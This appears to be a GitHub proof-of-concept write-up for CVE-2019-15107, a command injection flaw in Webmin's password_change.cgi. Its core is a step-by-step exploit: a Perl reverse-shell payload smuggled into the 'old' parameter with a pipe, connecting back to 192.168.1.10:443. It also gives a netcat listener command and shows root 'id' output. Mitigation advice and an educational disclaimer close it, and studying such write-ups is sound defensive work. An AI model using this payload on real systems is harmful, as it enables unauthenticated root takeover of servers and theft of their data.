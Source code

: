 # Proof of Concept: CVE-2019-15107 - Webmin Remote Code Execution (RCE)

## Overview

This Proof of Concept (PoC) demonstrates the exploitation of a critical vulnerability in Webmin (versions 1.882 to 1.921), identified as **CVE-2019-15107**. The vulnerability allows an unauthenticated remote attacker to execute arbitrary commands on the target system due to improper input validation in the **password_change.cgi** script.

- **CVE**: [CVE-2019-15107](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15107)
- **Severity**: Critical
- **Platform**: Linux/Unix
- **Vulnerability Type**: Remote Code Execution (RCE)
- **Affected Versions**: Webmin 1.882 to 1.921
- **Patched Version**: Webmin 1.930

## Vulnerability Details

The vulnerability exists in the `password_change.cgi` script, where improper sanitization of the `old` parameter allows an attacker to inject arbitrary commands using the vertical bar (`|`) character, leading to remote command execution.

## Exploitation

### Tools Required:
- Burp Suite or another HTTP interceptor
- Netcat for reverse shell listener

### Steps to Exploit:

1. **Intercept the Request**: 
   Use Burp Suite to intercept the HTTP request made to the `password_change.cgi` script when attempting to change a password on the Webmin server.

2. **Modify the `old` Parameter**: 
   Inject a malicious payload into the `old` parameter of the intercepted request. For this PoC, we will inject a reverse shell payload:

  ```bash
   old=some_password|perl -e 'use Socket;$i="192.168.1.10";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
 ```

3. **Send the Modified Request**: 
   Send the HTTP request with the malicious payload to the Webmin server via Burp Suite.

   **Burp Suite Command Injection Example:**
   
   ![Burp Suite Command Injection](https://github.com/AhsanA3/Cybersecurity-Technical-Writing/blob/main/Proof%20of%20Concept%20(PoC)/CVE-2019-15107%20-%20Webmin%20Remote%20Code%20Execution%20(RCE)/Picture2.jpg)

4. **Set Up a Netcat Listener**: 
   Before sending the payload, set up a Netcat listener on your machine to catch the reverse shell connection. Run the following command on your attacker machine:

```bash   
nc -lvnp 443
```

5. **Receive the Reverse Shell**: 
   After sending the modified request, if the exploit is successful, you should receive a reverse shell connection on your Netcat listener, granting you root-level access to the Webmin server.

   **Reverse Shell with Root Example:**
   
   ![Reverse Shell with Root](https://github.com/AhsanA3/Cybersecurity-Technical-Writing/blob/main/Proof%20of%20Concept%20(PoC)/CVE-2019-15107%20-%20Webmin%20Remote%20Code%20Execution%20(RCE)/Picture1.jpg)

## Proof of Exploit

Once the reverse shell is established, you can verify the success of the exploit by running the following command on the compromised system:

```bash
id
```
Expected output:

```bash
uid=0(root) gid=0(root) groups=0(root)
```

This confirms that you have successfully gained root privileges on the target machine.

## Mitigation

To mitigate this vulnerability, users should immediately update to Webmin version **1.930**, where this issue has been patched. In addition, the following steps can further secure Webmin installations:

- Enforce strict input validation and sanitization on all user inputs to prevent command injection.
- Ensure Webmin is not exposed to the public internet or is protected by strong network security measures such as a firewall or VPN.
- Regularly update Webmin and apply security patches promptly.

## References

- [CVE-2019-15107 on Mitre](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15107)
- [Webmin Release Notes](http://www.webmin.com/changes.html)
- [Exploit-DB Entry](https://www.exploit-db.com/exploits/47293)

---

**Disclaimer**: This PoC is intended for educational and research purposes only.
